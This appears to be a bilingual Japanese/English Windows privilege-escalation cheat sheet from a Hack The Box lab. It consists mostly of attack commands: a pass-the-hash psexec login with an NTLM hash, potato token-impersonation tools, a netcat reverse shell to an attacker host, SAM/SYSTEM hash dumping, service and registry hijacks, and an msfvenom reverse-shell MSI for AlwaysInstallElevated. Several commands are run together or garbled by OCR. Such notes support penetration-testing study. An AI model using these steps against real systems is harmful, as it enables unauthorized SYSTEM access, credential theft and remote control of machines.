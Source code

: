 ### psexec
impacket-psexec -hashes :32693b11e6aa90eb43d32c72a07ceea6 htb/administrator@10.10.10.161 powershell.exe

### Juicy Potate
Juicy PotateはWindowsのローカル特権昇格ツールです。
https://github.com/ohpe/juicy-potato

setImpersonatePrivilegeが有効になっているため、 Juicy Potatoを使用して SYSTEM を取得できる可能性が非常に高くなります。
Juicy Potato は、Microsoft がトークンを処理する方法を悪用して、ローカル権限を SYSTEM に昇格させます。

### Automated Scripts
winpeas.exe
winpeas.bat
Jaws-enum.ps1
powerup.ps1
PrivescCheck.ps1

### Token Impersonation

Command to check whoami /priv
#PrintspooferPrintSpoofer.exe -i -c powershell.exe 
PrintSpoofer.exe -c "nc.exe <lhost> <lport> -e cmd"
#RoguePotatoRoguePotato.exe -r <AttackerIP>-e "shell.exe"-l 9999
#GodPotatoGodPotato.exe -cmd "cmd /c whoami"GodPotato.exe -cmd "shell.exe"#JuicyPotatoNGJuicyPotatoNG.exe -t *-p "shell.exe"-a

#SharpEfsPotatoSharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log"#writes whoami command to w.log file

### SAM and SYSTEM
次のフォルダーをチェックする
#Usually %SYSTEMROOT% = C:\Windows%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
C:\windows.old
#正規表現、最初にc:dir / s SAMに移動します
dir /s システム

	• SYSTEMおよびSAMからのハッシュの取得
impacket-secretsdump -system SYSTEM -sam SAM local
#コマンドで常にlocalに言及する
#これで、ハッシュの詳細なリストが表示されます
### Services
#### Binary Hijacking
#winpeas からサービスを識別する
icalcs "path" 
#Fは完全な権限を意味し、フォルダへのフルアクセスがあることを確認する必要がありますsc qc <servicename>
 #BinaryPath 変数の検索
sc config <service> <option>="<value>" #change the path to the reverseshell location
sc start <servicename>
---
#### Unquoted Service Path
wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """  #Displays services which has missing quotes, this can slo be obtained by running WinPEAS
#書き込み可能なパスを確認する
icalcs "path"
#ペイロードを書き込み可能な場所に挿入し、どちらが機能しますか。sc start <servicename>
---
#### Insecure Service Executables
#Winpeas で、次のサービスを探します
File Permissions: Everyone [AllAccess]
#サービスフォルダ内の実行可能ファイルを置き換えて、サービスを開始しますsc start <service>
---
#### Weak Registry permissions
#Winpeas services info の出力で次の点を探します
HKLM\system\currentcontrolset\services\<service> (Interactive [FullControl]) #This means we have ful access

accesschk /acceptula -uvwqk <path of registry> #Check for KEY_ALL_ACCESS

#regeditからのサービス情報、実行可能ファイルを保持する変数を識別しますreg query <reg-path>

reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
#ここでは Imagepath が変数です
net start <service>


### Schedules Tasks
schtasks /query /fo LIST /v 
#スケジュールされたタスクのリストを表示し、関心のあるタスクをピックアップします
#権限チェック - 書き込み可能とは、悪用可能であることを意味します。
icalcs "path"
#スケジュールされたタスクが実行されるまで待つと、シェルが表示されます
### DLL Hijacking
### Autorun
#確認のために、ファイルの場所を含むいくつかの情報が表示されます
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run

#場所が書き込み可能であることを確認する
accesschk.exe \accepteula -wvu "<path>" #returns FILE_ALL_ACCESS

#実行可能ファイルをリバースシェルに置き換えると、管理者ログインまで待つ必要があり、シェルが作成されます


### AlwaysInstallElevated
#チェックのために、1またはOx1を返す必要があります
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

#msi 形式でのリバースシェルの作成msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<port> --platform windows -f msi > reverse.msi

#シェルの実行と取得
msiexec /quiet /qn /i reverse.msi

### Startup Apps
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp 
#スタートアップ アプリケーションについては、こちらを参照してください。
#書き込み可能な権限と転送を確認する
#ここでの唯一の落とし穴は、システムを再起動する必要があることです

### Insecure GUI apps
#Check the applications that are running from "TaskManager" and obtain list of applications that are running as Privileged user
#Open that particular application, using "open" feature enter the following
file://c:/windows/system32/cmd.exe 



